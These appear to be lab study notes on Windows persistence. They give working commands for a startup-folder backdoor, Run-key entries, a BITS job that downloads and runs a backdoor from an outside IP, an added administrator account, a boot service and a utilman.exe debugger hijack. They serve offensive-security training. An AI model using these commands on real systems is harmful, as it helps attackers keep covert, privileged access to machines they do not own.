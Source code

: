# Persistence
Startup
-------

`The path of the startup folder is: C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

Browse to that path and upload the binary you generated with msfvenom.. Since the binary is in the startup folder every time a user restarts its computer and logs in the backdoor will be executed and Metasploit will receive the connection.

**Editing registries**
----------------------

Depending on the registries a low privileged user might be able to edit them. With this in mind, an attacker could edit the registries to achieve persistence.

An example of an editable registry is: `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`

First, let's move the backdoor to the AppData folder. You can either move it from the Startup folder or upload it again to the AppData folder.

`reg add “HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run” /v Backdoor /t REG_SZ /d “C:\Users\tryhackme\AppData\Roaming\backdoor.exe”`

**BITS Jobs**
-------------

﻿BITS (Background Intelligent Transfer Service)﻿ is used for file transfer between machines (downloading or uploading) using idle network bandwidth.

BITS Jobs are containers that contain files that need to be transferred. However, when creating the job the container is empty and it needs to be populated (specify one or more files to be transferred). It's also needed to add the source and the destination.

`bitsadmin /create backdoor`

`bitsadmin /addfile backdoor “http://10.17.17.11/backdoor.exe”  “C:\Users\tryhackme\Documents\backdoor.exe”`

`bitsadmin /SetNotifyCmdLine 1 cmd.exe “/c bitsadmin.exe /complete backdoor | start /B C:\Users\tryhackme\Documents\backdoor.exe”`

`bitsadmin /SetMinRetryDelay backdoor 30`

Backdoor user
-------------

`net user /add <USER> <PASSWORD>`
---------------------------------

`net localgroup Administrators Backdoor /add`

New service
-----------

Create the service using the New-Service cmdlet: 

`New-Service -Name "<SERVICE_NAME>" -BinaryPathName "<PATH_TO_BINARY>" -Description "<SERVICE_DESCRIPTION>" -StartupType "Boot"`

Powershell Scheduled Tasks
--------------------------

Powershell can be used to create a scheduled task and assure persistence but for that, we'll have to define multiple cmdlets. These are:

1.  New-ScheduledTaskAction
2.  New-ScheduledTaskTrigger
3.  New-ScheduledTaskPrincipal
4.  New-ScheduledTaskSettingsSet
5.  Register-ScheduledTask

  
New-ScheduledTaskAction - Is used to define the action that is going to be made.

New-ScheduledTaskTrigger - Defining the trigger (daily/weekly/monthly, etc). The trigger can be considered a condition that when met the scheduled task will launch the action.

New-ScheduledTaskPrincipal - Is the user that the task will be run as.

New-ScheduledTaskSettingsSet - This will set our above-mentioned settings.

Register-ScheduledTask - Will create the task.

![](Persistence/TNJVyjL.png)

```text-plain
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```
